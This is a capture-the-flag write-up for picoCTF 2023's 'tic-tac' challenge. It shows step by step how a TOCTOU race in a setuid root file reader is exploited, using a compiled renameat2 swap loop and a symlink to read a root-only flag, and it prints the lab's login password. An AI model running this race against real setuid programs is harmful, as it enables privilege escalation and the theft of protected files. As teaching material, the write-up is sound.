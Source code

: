 # tic-tac

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Hard
Tags: picoCTF 2023, Binary Exploitation, linux, bash, toctou
Author: JUNIAS BONOU

Description:
Someone created a program to read text files; we think the program reads files with 
root privileges but apparently it only accepts to read files that are owned by the 
user running it.

ssh to saturn.picoctf.net:61030, and run the binary named "txtreader" once connected. 
Login as ctf-player with the password, 8a707622
 
Hints:
(None)
```

Challenge link: [https://play.picoctf.org/practice/challenge/380](https://play.picoctf.org/practice/challenge/380)

## Solution

The challenge title and tags tells us that we should expect a [time-of-check to time-of-use (TOC/TOU)](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) race condition.

### Connect to the server

We start by connecting to the server with SSH

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/tic-tac]
└─$ ssh -p 61030 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61030 ([13.59.203.175]:61030)' can't be established.
ED25519 key fingerprint is SHA256:e8pSZxXYptxqGFMvizVN3x1vGmmhC4iDlWjx8/Js5jY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61030' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

### Investigate the scenario

Next, we investigate the available files

```bash
ctf-player@pico-chall$ ls -la
total 32
drwxr-xr-x 1 ctf-player ctf-player    20 Oct  1 14:15 .
drwxr-xr-x 1 root       root          24 Aug  4 21:50 ..
drwx------ 2 ctf-player ctf-player    34 Oct  1 14:15 .cache
-rw-r--r-- 1 root       root          67 Aug  4 21:52 .profile
-rw------- 1 root       root          32 Aug  4 21:52 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4 21:52 txtreader

ctf-player@pico-chall$ file txtreader 
txtreader: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5f31c8b2980e334387115245d52f922371573666, for GNU/Linux 3.2.0, not stripped
```

We have the `txtreader` program with the [Setuid](https://en.wikipedia.org/wiki/Setuid) bit set.  
And a `flag.txt` file only readable by `root` as well as the source code named `src.cpp`.

### Analyse the C++ file

Now we analyse the C++ source

```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

The race condition is between the time-of-check, the `if (stat(filename.c_str(), &statbuf) == -1) {` line,  
and the time-of-use, the `if (file.is_open()) {` line.

This [LiveOverflow video](https://www.youtube.com/watch?v=5g137gsB9Wk) does a good job of describing both the problem and the solution.

### Make a work area

Since the home directory isn't writable to us we need to create a work area

```bash
ctf-player@pico-chall$ TMP_DIR=$(mktemp -d)
ctf-player@pico-chall$ echo $TMP_DIR
/tmp/tmp.ejxpXrVQv6
ctf-player@pico-chall$ chmod 777 $TMP_DIR
ctf-player@pico-chall$ cd $TMP_DIR
```

### Compile the exploit

Then we create the [rename.c exploit](https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c) described in the video above.

```bash
ctf-player@pico-chall$ cat << EOF > rename.c
> #define _GNU_SOURCE
> #include <stdio.h>
> #include <fcntl.h>
> #include <stdio.h>
> #include <unistd.h>
> #include <sys/syscall.h>
> #include <linux/fs.h>
> 
> int main(int argc, char *argv[]) {
>   while (1) {
>     syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
>   }
>   return 0;
> }
> EOF
ctf-player@pico-chall$ 
```

Neither `vi` nor `vim` seemed to be installed so I used a [here document](https://tldp.org/LDP/abs/html/here-docs.html) instead.

Now we compile

```bash
ctf-player@pico-chall$ gcc -o rename rename.c 
ctf-player@pico-chall$ file rename 
rename: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=96a47ccc6a617534efdf3fb5e09207cfcb9dd0e9, for GNU/Linux 3.2.0, not stripped
```

### Prepare the files

The exploit takes two files. One file should be readable by you and the other should be a [symbolic link](https://en.wikipedia.org/wiki/Symbolic_link) pointing to the file we want to read.

```bash
ctf-player@pico-chall$ ln -s ~/flag.txt
ctf-player@pico-chall$ ls -l flag.txt 
lrwxrwxrwx 1 ctf-player ctf-player 25 Oct  1 14:24 flag.txt -> /home/ctf-player/flag.txt
ctf-player@pico-chall$ touch myfile.txt
```

### Run the exploit

Next we run the exploit in the background

```bash
ctf-player@pico-chall$ ./rename flag.txt myfile.txt &
[1] 53
```

### Get the flag

Finally, we run the `txtreader` program and ask for `myfile.txt`

```bash
ctf-player@pico-chall$ ./txtreader $TMP_DIR/myfile.txt
picoCTF{<REDACTED>}
```

And we get the flag.

For additional information, please see the references below.

## References

- [C++ - Wikipedia](https://en.wikipedia.org/wiki/C%2B%2B)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [file - Linux manual page](https://man7.org/linux/man-pages/man1/file.1.html)
- [gcc - Linux manual page](https://man7.org/linux/man-pages/man1/gcc.1.html)
- [Here documents - Advanced Bash-Scripting Guide](https://tldp.org/LDP/abs/html/here-docs.html)
- [ln - Linux manual page](https://man7.org/linux/man-pages/man1/ln.1.html)
- [mktemp - Linux manual page](https://man7.org/linux/man-pages/man1/mktemp.1.html)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [Symbolic link - Wikipedia](https://en.wikipedia.org/wiki/Symbolic_link)
- [Time-of-check to time-of-use - Wikipedia](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
